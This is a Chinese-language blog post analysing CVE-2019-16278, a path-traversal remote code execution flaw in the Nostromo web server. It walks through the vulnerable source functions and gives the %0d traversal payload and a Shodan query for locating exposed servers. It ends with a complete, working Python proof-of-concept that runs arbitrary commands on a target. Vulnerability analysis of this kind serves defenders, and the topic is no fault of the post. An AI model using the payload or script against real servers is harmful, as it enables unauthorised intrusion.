





# CVE-2019-16278-Nostromo Web Server 远程代码执行 - 17bdw - 博客园

> 原文：[`www.cnblogs.com/17bdw/p/12057671.html`](https://www.cnblogs.com/17bdw/p/12057671.html)

本文主题主要是分析[CVE-2019-16278](https://nvd.nist.gov/vuln/detail/CVE-2019-16278)漏洞原因、漏洞如何利用以及为什么会受到攻击。这个 CVE 跟[Nostromo Web 服务器](http://www.nazgul.ch/dev_nostromo.html)（又名 nhttpd）有关，这个组件是在 FreeBSD，OpenBSD 等 Unix 系统上非常流行的开源 Web 服务器。

Nostromo 无法验证 URL，导致可以通过[路径遍历](https://www.owasp.org/index.php/Path_Traversal)系统中的任何文件。没有通过身份验证的攻击者可以强制服务器指向`/bin/sh`之类的 shell 文件并执行任意命令。由于所有 Nostromo 的版本（包括最新版本 1.9.6）都很容易受到攻击，甚至其开发人员的网站 www.nazgul.ch 也可以利用。

Nostromo 之前也有路径遍历漏洞，未授权远程代码执行[CVE-2011-0751](https://nvd.nist.gov/vuln/detail/CVE-2011-0751)。在 URI 解码的转义字符之前，Web 服务器会先检查 URI 中的字符串/../，然后[RedTeam Pentesting GmbH](https://www.redteam-pentesting.de/en/advisories/rt-sa-2011-001/-nostromo-nhttpd-directory-traversal-leading-to-arbitrary-command-execution)发现了这个漏洞。将字符**/**编码为**％2f**并将其传递给服务器，如下所示：
**/..%2f..%2f..%2fbin/sh**

虽然 Nostromo 在检查字符串/../之前解码转义字符来修复 1.9.4 版中的 CVE-2011-0751，但是仍然被[sp0re](https://sp0re.sh/)绕过，并且 CVE-2019-16278 可以返回 Nostromo 路径遍历的结果。

## 在野利用:

在[Shodan](https://www.shodan.io/search?query=%22Server%3A+nostromo%22)上使用以下查询语句可以找到大约 2000 个暴露于互联网上的 Nostromo Web 服务器：

"Server: nostromo"



可以使用 Python 编写的[PoC](https://github.com/sudohyak/exploit/blob/master/CVE-2019-16278/exploit.py)对一些服务器验证漏洞，实际上这些所有服务器都可以被攻击。


EXP 发送了一个 HTTP 请求，URI 中带有/.%0d./.%0d./.%0d./.%0d./bin/sh。 跟 CVE-2011-0751 对比，只是将`％2f`更改为 Nostromo 没有检查到的字符`％0d`。

那么系统为什么可以用含有`％0d ./.% 0d./`而不是`../../`这样的回车符（CR）去遍历上层目录。 其实系统接收到没有任何 CR 字符的../../。 那么，那些 CR 字符哪里去了？

这些疑问可以通过分析 Nostromo 源码得到答案，Nostromo 1.9.6 版本源代码([`www.nazgul.ch/dev/nostromo-1.9.6.tar.gz`](http://www.nazgul.ch/dev/nostromo-1.9.6.tar.gz))。

## 源码分析：

当接收到 URI，先进行验证然后进行处理。



在 http_verify()函数里，这个 URI 先是被 http_decode_header_uri()函数解码，然后检查`/../.`是否存在。这个 URI 现在是`/.\r./.\r./.\r./.\r./bin/sh`.



接下来，在 http_proc()函数中，将 URI 传给 http_header()函数



根本原因在这里，在 http_header()函数中，通过 strcutl()函数解析 URI。


看一下 strcutl()函数的实现，可以看到是接收一个字符串并以`\ r`（回车）被截断了返回。


现在路径是`/../../../../bin/sh`。 那么路径遍历部分完成了之后又怎么被执行呢？是因为 http_proc()函数中的 execve()函数。 执行 rh-> rq_filef 时，实际值是路径`/../../../../bin/sh`。



这个漏洞就是这么通过路径遍历实现 RCE 的！

## POC 代码

```
#!/usr/bin/env python

import socket
import argparse

parser = argparse.ArgumentParser(description='RCE in Nostromo web server through 1.9.6 due to path traversal.')
parser.add_argument('host',help='domain/IP of the Nostromo web server')
parser.add_argument('port',help='port number',type=int)
parser.add_argument('cmd',help='command to execute, default is id',default='id',nargs='?')
args = parser.parse_args()

def recv(s):
	r=''
	try:
		while True:
			t=s.recv(1024)
			if len(t)==0:
				break
			r+=t
	except:
		pass
	return r
def exploit(host,port,cmd):
	s=socket.socket()
	s.settimeout(1)
	s.connect((host,int(port)))
	payload="""POST /.%0d./.%0d./.%0d./.%0d./bin/sh HTTP/1.0\r\nContent-Length: 1\r\n\r\necho\necho\n{} 2>&1""".format(cmd)
	s.send(payload)
	r=recv(s)
	r=r[r.index('\r\n\r\n')+4:]
	print r

exploit(args.host,args.port,args.cmd) 
```

## 参考

[`www.sudokaikan.com/2019/10/cve-2019-16278-unauthenticated-remote.html`](https://www.sudokaikan.com/2019/10/cve-2019-16278-unauthenticated-remote.html)